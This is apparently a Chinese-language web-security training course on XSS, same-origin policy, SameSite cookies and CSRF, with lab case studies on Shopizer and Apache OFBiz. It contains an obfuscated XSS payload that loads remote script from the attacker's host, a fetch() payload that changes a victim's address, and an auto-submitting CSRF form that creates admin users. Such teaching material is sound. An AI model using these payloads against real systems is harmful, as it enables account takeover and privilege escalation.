也就是说，只要 cookie 的作用域限定在请求的域内，浏览器就允许 JavaScript 发送包含该 cookie 的请求。或许我们可以注入一些 JavaScript 代码，以实现应用程序内部的特定功能。

让我们以已认证用户的身份探索该应用程序，以便熟悉其功能。我们使用之前创建的受害者帐户登录，然后点击*“欢迎”* > *“我的帐户”*。


这里没有太多选择。“更改密码”功能需要用户当前密码，所以我们无法更改受害者的密码。但是，我们或许可以更改他们的收货地址。让我们点击*“账单和送货信息”*，然后点击*“添加新地址”*。


让我们用一些占位符值填写表格，然后点击*“更改地址”*按钮提交，这样我们就有了一个示例请求。

```http
POST /shop/customer/updateAddress.html HTTP/1.1
Host: shopizer:8080
Content-Length: 161
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://shopizer:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://shopizer:8080/shop/customer/editAddress.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: navigate-tinymce-scroll=%7B%7D; navigate-language=en; cookieconsent_status=dismiss; JSESSIONID=557F764BDD5F6574EF1E3B6E5A5F662D; user=DEFAULT_tom.jones@local.io
Connection: close

customerId=100&billingAddress=false&firstName=z&lastName=z&company=&address=z&city=z&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change+address

```

我们应该能够使用*Fetch()*或*XMLHttpRequest()*发送这样的 POST 请求。但是，这里有个问题。POST 请求包含一个*customerId*参数，我们可能需要从目标用户中提取该参数。在研究如何提取之前，我们先使用 Repeater发送一个*customerId*值为空的 POST 请求，然后查看响应。我们还会将名字替换为一个新值，以便验证更新是否成功。

太好了。我们收到了包含更新后的名字值的 HTTP 200 响应。看来我们不必再担心*customerId 的值了。*

下一步，我们将编写一个 JavaScript 有效负载来发送类似的请求。我们将使用*fetch()*函数发送请求，并向
其传递 URL 和一个包含请求所需各种配置的对象。

```javascript
01  fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
02    method: 'POST',
03    mode: 'same-origin',
04    credentials: 'same-origin',
05    headers: {
06      'Content-Type':'application/x-www-form-urlencoded'
07    }, 
08    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
09  })

```

我们将首先在选项对象中设置方法*为*“POST”（第2 行）。由于我们的有效负载实际上将托管在与应用程序相同的域中，因此我们将 在第 3 行和第 4 行将*模式*和*凭据*值设置为“same-origin”。这样， 由于请求不是 跨域的，浏览器应该可以发送 JSESSIONID cookie。我们将包含一个值为“application/x-www-form-urlencoded”的*Content-Type*标头 （第 5-7 行）。最后，我们将 包含 POST 请求体的内容，其中包含一些概念验证值。

现在我们有了有效载荷，我们将把它保存到我们之前创建的 xss.js 文件中，然后启动 HTTP服务器。

```bash
kali@kali:~$ nano ~/xss/xss.js

kali@kali:~$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

让我们用自己的账号测试一下这个有效载荷。首先访问http://shopizer:8080/shop/customer/dashboard.html，确保我们的会话仍然有效。如果会话无效，我们需要重新登录。接下来，我们访问“Handbags”部分并加载我们的漏洞利用 URL，该 URL将从我们的 Kali 机器加载恶意 J​​avaScript 文件。有效
载荷仍然是
`'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTEveHNzLmpzJyk=')))+'`



网页上没有任何信息表明我们的请求是否成功。如果我们查看 Burp Suite 中的 HTTP 历史记录选项卡，应该能找到POST 请求已发送的记录。

我们可以通过返回“我的帐户”页面并单击*“账单和送货信息”*来验证更改是否已保存。

太棒了！我们利用反射型 XSS 漏洞成功修改了用户的收货地址。虽然在正常情况下我们无法查看受害者浏览器中渲染的内容，但我们也可以使用*fetch 函数*从用户的浏览器中窃取该页面。

在继续学习下一个主题之前，请按照上述步骤重现攻击。

# 5、跨域攻击

在本学习模块中，我们将涵盖以下学习单元：

- 同源策略 (Same-Origin Policy)
- SameSite Cookies
- 跨站请求伪造 (CSRF)
- 案例研究：Apache OFBiz CSRF 漏洞
- 跨源资源共享 (CORS)
- 利用薄弱的 CORS 策略

过去，Web 应用程序通常采用**单体架构 (monolithic)**[65]，将所有数据、资源和内容都集中在单一域名下。尽管现在仍有一些应用沿用这种模式，但许多现代 Web 应用程序都会从多个不同的域名加载数据和资源（例如 JavaScript 库）。当一个域名指示浏览器向另一个不同的域名请求资源时，这种请求就被称为**跨源 (cross-origin)** 或**跨站 (cross-site)** 请求。

在本模块中，我们将探讨两种类型的跨源攻击。这些攻击的目标是已经在目标应用程序上建立认证会话 (authenticated sessions) 的用户，其核心攻击面在于利用浏览器处理 Cookie 的底层机制。

首先，我们将回顾**同源策略 (SOP, Same-Origin Policy)**[66]，以理解它在这些攻击中是如何发挥作用的。我们将要讲解的第一种攻击是**跨站请求伪造 (CSRF)**[67]。由于现代浏览器安全机制的不断完善，CSRF 的利用难度正在日益增加，但深入理解它，将为我们后续攻击配置不当的**跨源资源共享 (CORS)**[68]（即我们将要讨论的第二种攻击）打下极其重要的理论基础。

------

### 5.1 同源策略

本学习单元涵盖以下学习目标：

- 理解什么是“源 (origin)”。
- 理解同源策略的核心逻辑，以及它是如何管控跨源请求的。

在本学习模块的实践环节，我们将使用两个应用程序来演示和学习跨源攻击：

- **CORS 沙盒 (CORS Sandbox)：** 一个集成了 CORS 配置和 Fetch API 交互功能的定制测试环境。
- **Apache OFBiz：** 一款开源的**企业资源计划 (ERP)** 应用程序，我们将利用其存在的 CSRF 漏洞进行实战演练。

接下来，我们需要在 Kali Linux 虚拟机上配置 `/etc/hosts` 文件，以便正确解析并访问这些靶机应用。

```
kali@kali:~$ udo mousepad /etc/hosts

kali@kali:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.50.101  cors-sandbox
192.168.50.110  ofbiz

```

目前，我们只需要启动下面列出的 CORS 沙盒（CORS Sandbox）靶机，并在开始操作前，在我们的 Kali 机器上更新对应的 IP 地址映射（`/etc/hosts`）。我们将在本学习单元中使用此虚拟机，并在后续的学习单元中再次用到它。

**“源 (Origin)”是由协议 (Protocol)、主机名 (Hostname) 和端口号 (Port) 三者组合而成的。** 浏览器强制执行同源策略 (SOP, Same-Origin Policy)，旨在防止一个源越权访问另一个不同源上的资源（如图片、HTML 数据、JSON 等）。

如果没有同源策略，Web 将会变成一个极其危险的法外之地。任何我们访问的恶意网站都可以悄悄读取我们的电子邮件、查看我们的银行余额，甚至能直接窃取我们在其他已登录网站会话中的敏感信息。

换句话说，`megacorpone.com` 可以在自己的页面里放置一个指向 `kali.org` 的链接，但它不能使用代码直接读取 `kali.org` 的 HTML 内容。这听起来可能会让人有些困惑，因为在日常上网时，我们明明看到许多网站都正常加载了来自第三方的图片、脚本和其他资源。

这里的关键点在于：**SOP 的核心目的并不是阻止浏览器“发送”跨源请求，而是阻止 JavaScript 去“读取”跨源请求的响应内容。**

进一步来说，SOP 允许将跨源的图片、IFrame 以及其他资源嵌入（Embed）并渲染到页面上，但会严格拦截 JavaScript 引擎，禁止其访问这些响应的底层数据。

这在防御逻辑上与 Cookie 的 `HttpOnly` 标志非常相似：`HttpOnly` 阻止 JavaScript 读取 Cookie 内容，但依然允许浏览器在发起 HTTP 请求时自动将其携带发送给服务器。

我们可以在沙盒应用程序的 `https://cors-sandbox/fetch` 节点测试这一行为。建议使用 Burp Suite 内置的浏览器来访问，这样我们就能直观地审查该网页在后台生成的所有 HTTP 请求细节了。

该应用程序使用 Fetch API 向我们指定的 URL 发起 GET 请求。同时，我们也可以动态地向页面中插入图片。我们将利用该应用向 `https://www.megacorpone.com/` 发起请求，以此来开始实战探索跨源请求。在应用中输入该 URL，然后点击“发送请求 (Send Request)”。



我们的请求失败了。让我们打开浏览器的控制台，查看具体的错误信息。按下 `Ctrl+Shift+I`（或 `F12`）打开开发者工具，然后切换到 **控制台 (Console)** 选项卡。



由于目标域名并没有配置 CORS（跨源资源共享）策略，浏览器拦截了前端 JavaScript，禁止其读取响应内容。然而，如果我们切换到 Burp Suite，查看 **HTTP 历史记录 (HTTP history)** 选项卡，就会发现：**浏览器实际上已经成功发出了该请求，并且目标服务器也完整地返回了响应**。


我们必须牢记一个核心概念：**同源策略 (SOP) 仅仅是拦截了 JavaScript 对响应数据的读取权限，但它绝对不会阻止底层网络请求的发出。**

现在，我们来尝试加载一张图片。前面我们提到过，SOP 允许跨源加载图片。但这里有一个极其重要的前置条件：这种跨源豁免权**仅限于 HTML 中的 `` 等标签渲染**。

如果我们试图通过 JavaScript（例如使用 `fetch` 或 `XMLHttpRequest`）去跨域请求同一张图片的数据流，SOP 依然会无情地拦截 JavaScript 获取其响应内容（除非目标服务器通过配置 CORS 明确赋予了读取权限）。

接下来，我们将在沙盒应用的 URL 输入框中填入 `https://www.megacorpone.com/old-site/nano.jpg`，并再次点击“发送请求 (Send Request)”。



我们收到了相同的报错信息。但是，如果我们把这个 URL 放在 `` 标签里会发生什么？让我们点击右上角的“X”关闭开发者工具，然后点击“嵌入图片 (Embed Image)”。



页面成功将该图片嵌入到了 HTML 代码中，并且我们的浏览器也正常加载并显示了它。这里需要强调的一个核心区别是：**SOP 仅仅是拦截了 JavaScript 读取跨源请求响应的权限，但请求本身依然会被发送出去**。在某些攻击场景下，单单是让浏览器“发出请求”这一动作，就足以触发目标 Web 应用程序的状态变更（例如执行操作或修改数据）。而 CORS（跨源资源共享）机制则可以用来有选择性地放宽 SOP 的限制，我们将在本模块的后续部分对此进行深入探讨。

在绝大多数应用程序中，执行敏感操作的请求通常都需要经过身份验证。过去，浏览器在发起任何请求时都会默认携带相关的 Cookie；但随着 Cookie 的 `SameSite` 属性被引入和广泛应用，这一默认行为在近期已经发生了重大改变。

在进入下一节之前，请务必跟随上述步骤，在沙盒应用中亲手实践发送跨源请求，并仔细审查其网络交互结果。

------

### 5.2 SameSite 站点同源 Cookie

本学习单元涵盖以下学习目标：

- 深入理解跨源请求 (cross-origin requests) 的概念。
- 掌握 `SameSite` 属性及其三种配置模式。

早在 2016 年 `SameSite`属性被首次引入时，Google Chrome 是首个对其提供支持的浏览器，而如今所有主流浏览器均已全面支持该属性。这个属性的核心作用是**指示浏览器在面对跨站 (cross-site) 或跨源请求时，应当如何处理和发送 Cookie**。当一个网站向另一个不同的网站发起请求时，跨站请求就产生了。举例来说，如果 `megacorpone.com` 页面内尝试加载来自 `kali.org` 的图片，浏览器就会将此行为判定为跨站请求。

该属性目前包含三种有效的配置值：

1. **`None`**： 它会指示浏览器在所有相关的请求中都携带并发送该 Cookie，无论请求的来源是哪里，或是以何种方式发起的。需要特别注意的是，现代浏览器（尤其是 Chrome）通常会强制要求：如果 Cookie 设置了 `SameSite=None`，则必须同时为其配置 `Secure` 标志（即仅允许通过 HTTPS 传输），否则该 Cookie 将会被浏览器直接拦截或丢弃。
2. **`Lax`**： 该值会指示浏览器在大多数跨站请求（如跨站的 POST 请求或 AJAX/Fetch 异步请求）中**不**发送该 Cookie。然而，当发生顶层导航（Top-level navigation）时，例如用户在地址栏中手动输入 URL，或者直接点击了一个指向目标网站的普通链接（GET 请求），浏览器则会放行并发送该 Cookie。
3. **`Strict`**： 这是最严格的配置。当设置为该值时，浏览器将**仅在发起请求的域名与 Cookie 所属的域名完全一致（即绝对同站）时**，才会携带该 Cookie。它与 `Lax` 模式最关键的区别在于：即使用户是从第三方网站直接点击链接跳转过来的，浏览器也**绝对不会**发送标记为 `Strict` 的 Cookie。

如果 Web 应用程序在下发 Cookie 时没有显式配置 `SameSite` 标志，那么将由客户端浏览器自行决定默认的处理策略。目前，Google Chrome 会将所有未显式设置有效 `SameSite` 属性的 Cookie 默认视为 **`SameSite=Lax`**。尽管其他主流浏览器厂商已经表态未来会跟进这一默认安全策略，但在某些特定的版本或环境中，它们的行为可能尚未完全统一。

### 5.3 跨站请求伪造（CSRF）

本学习单元涵盖以下学习目标：

- 理解跨站请求伪造的概念。
- 掌握如何识别跨站请求伪造漏洞。
- 掌握如何利用跨站请求伪造漏洞。

本学习单元大约需要 30 分钟完成。

跨站请求伪造（CSRF）曾是 OWASP Top 10 [72] 的常客，但由于现代浏览器引入了新的防御控制机制，加之许多 Web 框架默认内置了 CSRF 防护，该漏洞在 2017 版中被移除 [73]。在 CSRF 漏洞利用中，攻击者通过欺骗手段，诱导用户向其已经建立有效认证会话的网站提交非法请求。

攻击者可以直接对受害者进行钓鱼攻击，或者将恶意内容注入到 Web 应用程序中供受害者加载。无论采用哪种方式，CSRF Payload 都会强制受害者的浏览器（自动携带所有相关的会话 Cookie）向目标 Web 应用发起请求。浏览器的这种默认行为正在发生改变，我们将在后文中详细探讨。除非 Web 应用程序部署了专门的 CSRF 缓解措施，否则它无法区分该请求是用户自愿发起的还是恶意伪造的。最终，Web 应用程序会在受害者的会话上下文中执行该恶意请求。

CSRF 漏洞最危险的特征在于：只要用户处于已认证状态，且浏览器会自动向目标应用发送 Cookie，那么用户访问的**任何**站点都可能成为发起伪造请求的跳板。攻击者可以通过网络钓鱼精准定向特定用户以触发 CSRF，也可以攻陷一个高流量网站，对所有访问该网站的用户发动无差别 CSRF 攻击。此外，用户在日常浏览互联网时，也极易无意间访问到部署了恶意代码的站点。

CSRF 漏洞造成的具体危害取决于目标 Web 应用的业务逻辑。典型的高危场景包括：在银行应用中执行非授权转账、创建新用户（可能包含管理员权限账户），或者修改密码以实现完全的账户劫持 (Account Takeover)。

在 `SameSite` Cookie 策略被广泛采用之前，如果 Web 应用程序没有显式地实施缓解措施，它们默认都会受到 CSRF 攻击的威胁。与其他由代码逻辑缺陷引起的漏洞不同，CSRF 攻击本质上是**利用了浏览器和 Web 应用程序底层的默认信任行为**。因此，防御 CSRF 的责任完全在于应用程序自身的架构设计。这也是为什么我们在探讨发现 CSRF 漏洞的同时，必须同步学习其防御机制。

应用程序防御 CSRF 攻击的核心思路是：要求用户在提交请求时，提供一个额外的、具有唯一性的值，以此证明该请求确实是由用户本人在其合法界面中主动发起的。这个值不能仅仅是一个 Cookie，因为浏览器的机制决定了它会自动将 Cookie 发送到对应的归属域名。

一种业界的标准做法是引入一个令牌 (Token) 或随机数 (Nonce)——通常被称为 **CSRF Token**，并将其作为隐藏的输入字段 (Hidden Input Field) 嵌入到前端表单中。应用程序会为每个页面、每个会话或每个特定用户随机生成这个 Token 值。当接收到请求时，Web 应用程序通过校验该 CSRF Token 的合法性来确认请求的意图。如果 Token 缺失或无效，应用程序将中断并拒绝处理该请求。这种架构要求服务器端必须维护并追踪用户与其对应 CSRF Token 之间的状态关系。

然而，要求服务器持久化记录并校验每一个请求的 CSRF Token 状态，会显著增加系统的性能开销并可能引发架构层面的可用性问题（例如在分布式集群中同步 Session 状态）。为了解决这一痛点，开发人员设计了一些**无状态 (Stateless)** 的替代方案，使服务器无需在后端存储 Token。尽管单纯依赖存储在 Cookie 中的 CSRF Token 并不安全，但如果配合特定的提交流程作为缓解因素，它依然是一种成熟的防御策略。

目前主流的两种无状态防御方案，均要求浏览器以“非默认”的方式提交 Cookie 中的 CSRF Token 值：

1. **Cookie 到请求头 (Cookie-to-Header) 模式：**

   该模式依赖客户端 JavaScript 读取指定的 Cookie 值，并将其显式地作为一个自定义 HTTP 请求头 (Custom Header) 发送给服务器。服务器接收到请求后，对比该请求头中的值与 Cookie 中的值是否一致，若一致则放行。

   - **安全隐患：** 此方案的致命弱点在于它必须允许前端 JavaScript 读取该 Cookie（即不能设置 `HttpOnly` 标志）。一旦目标应用程序存在**跨站脚本 (XSS)** 漏洞，攻击者就可以利用注入的 JavaScript 轻松窃取该 Cookie，从而彻底绕过 CSRF 防护机制。
   - **原理说明：** XSS 漏洞能够降维打击并绕过应用程序的 CSRF 防护，因为由 XSS Payload 发起的所有请求，在浏览器看来都隶属于当前目标域名。这意味着，XSS 触发的请求不被定义为“跨源”或“跨站”，因此它可以毫无阻力地读取 DOM 树中的隐藏表单值，并在请求中携带所有当前域的 Cookie。

2. **双重提交 (Double Submit) 模式：**

   该模式在前端页面中放置一个包含 CSRF Token 值的隐藏表单输入字段 (`<input type="hidden">`)。当表单提交时，服务器会同时接收到包含 Token 的 Cookie 以及表单中的隐藏字段值。服务器只需校验这两个值是否完全匹配即可。

   - **优势：** 这种模式的显著优点是，前端 JavaScript 不需要直接读取包含 CSRF Token 的 Cookie（该 Cookie 可以安全地配置 `HttpOnly` 标志）。此外，服务器无需在数据库或内存中维护 Token 的生成记录，它只需要执行简单的字符串比对，极大地降低了后端的性能负担。

如果我们在审计时发现，应用程序的表单元素既没有实施上述任何一种防御机制（如隐藏的 Token 字段或自定义 Header），也没有正确配置 `SameSite` Cookie 策略，那么该表单极大概率存在 CSRF 漏洞。在实战中，我们应该通过审查浏览器的 HTML 源码，或利用 Burp Suite 拦截并分析 HTTP 请求包，来精准定位这些缺失的防御控制点。

让我们来看下面这个假设的表单示例：

```html
<form action="/user/changePassword" method="post">
    <div class="form-group">
        <label for="password1">Password</label>
        <input type="password" class="form-control" id="password1" name="password1" required>
    </div>
    <div class="form-group">
        <label for="password2">Repeat Password</label>
        <input type="password" class="form-control" id="password2" name="password2" required>
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
</form>

```

上面的示例表单包含两个输入字段（`password1` 和 `password2`）以及一个提交按钮。理论上讲，这个向 `/user/changePassword` 提交的 POST 请求存在 CSRF 漏洞，因为它没有使用任何 CSRF Token。当然，在实际审计中，我们还需要进一步检查应用程序设置的 Cookie（例如 `SameSite` 属性），以确定该应用是否采用了其他替代方案来缓解 CSRF 风险。需要特别注意的是，如果该 POST 请求在修改密码时强制要求验证用户的“当前密码”，那么这个 CSRF 漏洞将无法被利用，因为攻击者几乎不可能预先知道受害者的原始密码。

在以下代码块中，展示了一个包含 CSRF 防护的表单示例：

```html
<form action="/user/changePassword" method="post">
    <div class="form-group">
        <input type="hidden" name="csrftoken" value="SXQncyBhIHNlY3JldCB0byBldmVyeWJvZHkh" />
        <label for="password1">Password</label>
        <input type="password" class="form-control" id="password1" name="password1" required >
    </div>
    <div class="form-group">
        <label for="password2">Repeat Password</label>
        <input type="password" class="form-control" id="password2" name="password2" required>
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
</form>

```

此时的 HTML 表单中增加了一个名为 `csrftoken` 的隐藏输入字段 (`<input type="hidden">`)。后端的 Web 应用程序将利用这个值来验证用户是否是主动、有意地提交了该请求。包含此 Token 的输入字段可以被命名为任何名称，但大多数 Web 框架或中间件通常会倾向于在命名中包含 `csrf` 或 `token` 字样。

通常情况下，基于 GET 请求的 CSRF 漏洞更容易被利用，因为有非常多的方法可以隐蔽地触发浏览器发送跨站的 GET 请求。最典型的例子就是将用于执行 CSRF 攻击的 URL 放置在 ``（图片）标签的 `src` 属性中。浏览器在解析页面时，会自动向该 URL 发起 GET 请求去“加载图片”。在 CSRF 攻击中，我们并不关心受害者浏览器能否成功渲染出图片，我们**唯一关心的是：受害者的浏览器是否成功携带了攻击载荷（以及相关的会话 Cookie）发出了这个请求**。如果请求发出，目标应用就会将其当作合法请求并执行对应的后台功能。在这种场景下，攻击者甚至可以利用极其简单的数据注入漏洞，通过植入视觉上完全不可见的 HTML 标签（例如尺寸为 0x0 的图片或隐藏的 iFrame），对所有访问该页面的用户发动持久化的无差别 CSRF 攻击。

相比之下，伪造并发送跨站的 POST 请求要困难得多。我们必须诱导受害者访问一个包含恶意 HTML 表单的特制页面，并利用 JavaScript 监听页面的 `load` 事件，使其在页面加载完成的瞬间自动提交该表单。

此外，使用传统的 HTML 表单发起攻击，在 `Content-Type`（内容类型）和 HTTP 方法的选择上也受到了严格限制。例如，原生的 HTML 表单是无法直接构造并发送 JSON 格式的数据的，标准 HTML 表单仅支持发送 GET 和 POST 请求。

虽然 JavaScript API（如 XMLHttpRequest (XHR) 和 Fetch）可以突破限制，发送带有任意 HTTP 方法（如 PUT、DELETE）和任意内容类型（如 `application/json`）的请求，但在跨源场景下以这种方式使用这些 API 时，浏览器会强制先发送一个**预检请求 (Preflight request)** ，以探测目标服务器是否明确启用了跨源资源共享 (CORS) 策略并允许此类操作。关于 CORS 的详细机制，我们将在后续章节中深入讨论。

------

### 5.4 案例实战：Apache OFBiz

本学习单元涵盖以下学习目标：

- 在真实的 Web 应用程序中发现 CSRF 漏洞。
- 利用 CSRF 漏洞创建新用户。
- 使用 JavaScript 链式触发多个 CSRF 请求。
- 理解 `SameSite` 属性是如何影响不同类型 CSRF 攻击的。

我们将剖析开源 ERP（企业资源计划）应用程序 Apache OFBiz [76] 中存在的一个 CSRF 漏洞。在开始之前，我们需要确保能够网络连通并访问 Apache OFBiz 靶机（虚拟机）。

我们将通过在 Kali Linux 虚拟机中添加 `/etc/hosts` 文件记录的方式来解析并访问 Apache OFBiz。

```bash
kali@kali:~$ sudo mousepad /etc/hosts

kali@kali:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.50.110  ofbiz

```

让我们启动下方列出的虚拟机，并在开始操作前，在我们的 Kali 机器上完成对应的 IP 地址更新。我们将在整个学习单元中持续使用该虚拟机。

我们可以通过下方的 URL 来访问该 Web 应用程序的前端界面。

| URL                         | Username | Password |
| :-------------------------- | :------- | :------- |
| https://ofbiz:8443/webtools | admin    | ofbiz    |

在下一节提示需要进行身份验证时，我们将使用表 1 中提供的凭证进行登录。

首先，请打开 Burp Suite 及其内置浏览器 (Embedded browser)。接下来，在浏览器中访问登录页面：`https://ofbiz:8443/webtools/control/checkLogin`。



我们将输入提供的凭据并点击*“登录”*。在继续探索应用程序之前，让我们检查一下服务器对登录请求的响应。我们可以在 HTTP 历史记录选项卡中找到对 /webtools/control/login 的请求和响应。

```http
HTTP/1.1 200 
Set-Cookie: JSESSIONID=289957A01AEF4C404F221CA5346C8E1A.jvm1; Path=/webtools; Secure; HttpOnly
Set-Cookie: OFBiz.Visitor=10600; Max-Age=31536000; Expires=Wed, 15-Jun-2022 20:05:33 GMT; Path=/; Secure; HttpOnly
x-frame-options: sameorigin
strict-transport-security: max-age=31536000; includeSubDomains
x-content-type-options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: no-referrer-when-downgrade
Content-Security-Policy-Report-Only: default-src 'self'
vary: accept-encoding
Content-Type: text/html;charset=UTF-8
Date: Tue, 15 Jun 2021 20:05:33 GMT
Connection: close
Content-Length: 23167

```

我们收到的登录请求响应包含两个 cookie，但这两个 cookie 似乎都不是 CSRF 令牌。此外，这些 cookie 也没有设置*SameSite*属性。

CSRF攻击的一个有效目标是用户创建。如果我们能够诱骗管理员用户执行我们的恶意代码，我们就可以创建新用户，这些用户甚至可能拥有更高的权限或角色。

我们来看看如何在 OFBiz 中创建新用户。首先，点击*“安全”*。



接下来，我们将点击*“创建新项”*。


我们将提交一份包含一些简单数据的表单。用户名设为“test”，密码设为“password”，然后点击*“保存”*提交表单。



让我们在 Burp Suite 中检查一下 POST 请求。我们可以在 HTTP 历史记录选项卡中找到对 /webtools/control/createUserLogin 的请求。

```http
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=

```

POST 请求体包含一些网页上不可见的参数，但这些参数都不包含任何类似 CSRF令牌的信息。除了 Chromium 添加的请求头之外，没有其他额外的请求头。我们应该能够构造一个 CSRF 请求体来创建一个新用户。

在此之前，我们先来看看如何将用户添加到安全组。点击“*查找安全组”*。



生成的页面列出了应用程序中的各种安全角色。



阅读完描述并点击两次*“下一步”*后，我们找到了“SUPER”角色。


根据描述，我们将选择“SUPER”角色。应用程序此部分提供的选项会根据我们上次点击的内容而变化。让我们点击*“SUPER”*以获取安全组选项。



现在我们新增了几个按钮。接下来，我们将点击新增的*“用户登录”*按钮。



让我们在“用户登录 ID”字段中添加测试用户，然后单击*“添加”*。



我们的测试用户已被添加到 SUPER 组。让我们检查一下刚刚发送到 Web 应用程序的 POST 请求。

```http
POST /webtools/control/addUserLoginToSecurityGroup HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/EditSecurityGroupUserLogins?groupId=SUPER
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

groupId=SUPER&userLoginId=test&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=

```

POST 请求体和请求头中不包含任何类似CSRF 令牌的内容，因此我们也应该能够利用这一漏洞。我们将在下一节中利用我们发现的漏洞。

既然我们已经检查了应用程序并确定它很可能存在 CSRF 漏洞，接下来让我们看看如何利用这个漏洞。简而言之，我们需要将应用程序中的 HTML 表单复制到我们可以托管在我们自己服务器上的页面中。我们将
使用我们自己的数据填充这些表单，并设置表单在页面加载时自动提交，这样受害者用户只需打开页面即可
触发我们的攻击。在本节中，我们将分别扮演攻击者和受害者的角色。我们的最终目标是利用 CSRF 漏洞创建一个新用户，然后将其分配到“SUPER”安全组。

我们先来构建一个简单的 HTML 页面，利用此应用程序中的 CSRF 漏洞添加新用户。我们将从表单元素的基本结构和 JavaScript 代码开始，以便在页面加载时提交表单。我们在 `/var/www/html` 目录下创建一个名为 `ofbiz.html` 的文件，以便稍后使用 Apache 服务器来提供该页面服务。

```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  </form>
</body>
</html>

```

现在我们已经有了基本结构，接下来添加输入元素。我们页面生成的 POST 请求需要与 Web 应用程序的基准请求相匹配。我们需要 在表单元素内添加输入元素，每个输入元素对应原始请求中的一个键值对。

```html
...
<input type="hidden" name="enabled">
<input type="hidden" name="partyId">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="currentPassword" value="password">
<input type="hidden" name="currentPasswordVerify" value="password">
<input type="hidden" name="passwordHint">
<input type="hidden" name="requirePasswordChange" value="N">
<input type="hidden" name="externalAuthId">
<input type="hidden" name="securityQuestion">
<input type="hidden" name="securityAnswer">
...

```

我们不会详细讲解如何创建一个逼真的钓鱼页面，但我们会使用隐藏的输入字段来伪装表单。这样，页面在浏览器中打开时将显示为空白。我们来测试一下 CSRF 页面。首先，确保我们的 Kali 虚拟机上已经运行了 Apache。

```bash
kali@kali:~$ sudo systemctl restart apache2

```

接下来，我们需要确保在 OFBiz 中的会话仍然处于活动状态。登录 OFBiz 后，我们将在浏览器中打开一个新标签页，并浏览到 CSRF 页面。由于我们的表单会自动提交，浏览器将自动跳转到“更新用户登录安全设置”页面。



应用程序已创建了新用户。让我们在 Burp Suite 中查看一下流程，确保我们理解发生了什么。我们将点击*“代理”*选项卡，然后点击*“HTTP 历史*记录”选项卡来检查流量。

加载完我们的 CSRF 攻击页面后，浏览器向 OFBiz 应用发送了一个 POST 请求。 请求中的*Origin*和*Referer*标头表明该请求源自 http://localhost。请求中包含了我们的会话 cookie 。服务器处理了该请求并创建了我们的新用户。

